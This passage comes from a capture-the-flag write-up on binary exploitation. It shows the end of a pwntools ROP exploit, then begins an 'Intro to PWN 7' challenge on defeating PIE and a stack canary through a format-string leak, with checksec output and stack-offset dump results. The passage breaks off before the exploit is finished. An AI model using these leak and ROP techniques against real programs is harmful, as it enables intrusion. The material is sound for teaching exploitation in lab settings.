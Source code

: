 ```python
p.sendline(rop.chain())
p.interactive()
```

#### <a name="pwn7"></a>Intro to PWN 7 - PWN - 349 points

The challenge reads:

```
#7. Defeat PIE and a Canary, Full Green
```

This time we're expecting a stack canary, and PIE. Let's double check:

```bash
$ checksec pwnme
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Correct. Everything is green. To get the canary and PIE location in memory we need a leak, do we have one?

```bash
$ ./pwnme 
How about creating a leak AND smashing a canary?%2$016lx
0000000000000001
```

Looks like the same leak as last challenge. Ok, lets find the canary AND binary location in memory. I re-use the `findfmt.py` from before:

```bash
$ PWNLIB_SILENT=1 ./findfmt.py
Result for 1: 0000000000000001
Result for 2: 0000000000000001
Result for 3: 00007f7310df2a80
Result for 4: 0000000000000000
Result for 5: 0000000000000000
Result for 6: 786c363130243625
Result for 7: 00007f500e876800
Result for 8: 0000000000000000
Result for 9: 00007fff82e534a0
Result for 10: 00007ffd199e4c58
Result for 11: 000055b96b5a62f8
Result for 12: 0000000000000000
Result for 13: f0ba1688f7960700
Result for 14: 00007ffce7ba3400
Result for 15: 00005623b3579314
Result for 16: 0000000000000001
Result for 17: 00007f11cd42920a
Result for 18: 0000000000000000
Result for 19: 000055dce7fdc2f8
```
